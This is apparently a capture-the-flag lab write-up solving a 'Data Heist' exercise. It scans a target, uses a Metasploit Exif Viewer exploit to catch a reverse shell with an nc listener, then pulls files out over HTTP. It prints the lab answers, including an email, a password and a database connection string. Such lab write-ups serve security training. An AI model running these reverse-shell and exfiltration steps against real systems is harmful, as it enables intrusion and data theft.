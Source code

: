 # 03 - Data Heist (Lab)

We have noticed that there are some employees in our company who are not sufficiently aware of cybersecurity issues. It has been observed that these employees have uploaded files containing company data to a website called "Exif Viewer" in order to view metadata information.

The site claims that it does not store the uploaded files. However, we have to make sure that this is the case. If any of our company's files have been compromised in this process, we need to determine what information may be at risk. You are expected to guide us through this critical process. We rely on your expertise.

Question 1: What is the path where the files are stored on the server?

Lets start by performing a nmap scan to identify open ports and services on the target machine.

```
nmap -sSVC 172.20.49.87
```
```
PORT      STATE SERVICE  VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 5a:bc:c1:64:1b:a8:93:67:8c:a5:3a:c9:5e:28:94:50 (RSA)
|   256 71:07:65:ed:45:e7:b6:a5:18:c4:89:be:bc:fe:fb:01 (ECDSA)
|_  256 1f:7f:9d:f3:96:52:6f:b8:90:7e:dc:8e:b2:d6:2c:1d (ED25519)
80/tcp open  http    Apache httpd 2.4.56 ((Debian))
|_http-server-header: Apache/2.4.56 (Debian)
|_http-title: Exif Viewer
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
The target is running an Apache web server on port 80. Let's look if Exif Viewer is vulnerable.

```
msfconsole
search exif viewer
```

![](../Assets/Pasted%20image%2020251028145427.png)

Here we have a bunch of exploits for this tool.

Lets use the first one.

![](../Assets/Pasted%20image%2020251028145921.png)

We have created a file to upload to the server.
First lets make a nc listener on port 4444
```
nc -lvnp 4444
```

![](../Assets/Pasted%20image%2020251028151034.png)

Great here we have a reverse shell
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
Afte enumerating a while we have the first awnser that is the path where the files are stored on the server.
Answer: /var/www/93c0550a5543b366_uploads

Question 2: What is the e-mail address and password of an employee of the company "waltersltd" from the data contained in the stored files?

Lets look for any files that may contain this information.
```
grep -r "waltersltd" /var/www/93c0550a5543b366_uploads
```

![](../Assets/Pasted%20image%2020251028151345.png)

Answer: salvarado@waltersltd.hv:hGCQjxZs5chK

Question 3: What is the invoice number of an invoice found in the stored files?

On the same directory we have an Ja23s6_techinnovations_invoice.pdf file. Lets download it.
```
python3 -m http.server 8000
wget http://172.20.49.87:8000/Ja23s6_techinnovations_invoice.pdf
```

![](../Assets/Pasted%20image%2020251028151720.png)

Answer: INV-20240228-1234

Question 4: What is the database connection address of the files contained in the stored files?

Lets look for any files that may contain this information.
```
ls -la
```
We found a database.go file. Lets read it.
```
cat database.go
```
```
func main() {
        // Database connection string
        connStr := "postgres://postgres:JS3CqjNCcn7Ve@olympusbytes.hv:5432/olympus"
        db, err := sql.Open("postgres", connStr)
}
```
Now lets connect to the database using the above credentials.

Answer: olympusbytes.hv